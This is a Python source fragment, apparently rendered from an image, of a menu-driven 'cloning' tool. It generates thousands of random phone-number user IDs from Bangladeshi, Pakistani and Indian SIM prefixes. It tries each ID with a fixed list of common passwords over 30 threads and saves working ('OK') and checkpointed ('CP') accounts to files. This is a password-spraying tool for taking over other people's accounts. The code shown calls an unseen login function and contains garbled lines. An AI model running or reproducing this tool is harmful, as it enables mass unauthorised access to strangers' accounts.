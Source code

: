def pass6():
    os.system("clear")
    print(logo)
    clear()
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"  \x1b[97m\033[37;41m[ S I M    N E T W O R K    C O D E    M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f"\t        \x1b[97m\033[37;41m[ EXAMPLE👇]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f'\033[1;97m[!] \033[1;92mBD SIM CODES  \033[1;91m: \033[1;96m88017, 88019, 88018, 88016')
    print(f'\033[1;97m[!] \033[1;92mPAK SIM CODES \033[1;91m: \033[1;96m0303, 0302, 0301, 0305')
    print(f'\033[1;97m[!] \033[1;92mIND SIM CODES \033[1;91m: \033[1;96m91930, 91778, 91712 , 91902  ')
    print('\033[1;97m====================================================') 
    print(f"\x1b[97m\033[37;41m BEST CODE FOR PAK [0300 / 0302 / 0306 / 0349 /0315]\033[0;m")
    print('\033[1;97m====================================================') 
    code = input('\033[1;37m[\033[1;31m!\033[1;37m]\033[1;32m PUT SIM NETWORK CODE \033[1;37m: \033[1;36m')
    os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER D4DY-M4H1N\033[1;91m                :\033[1;96m "+D4DY-M4H1NX)
        print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m6') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = ['khankhan','malikmalik','malik123','malik12','malik786']
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()

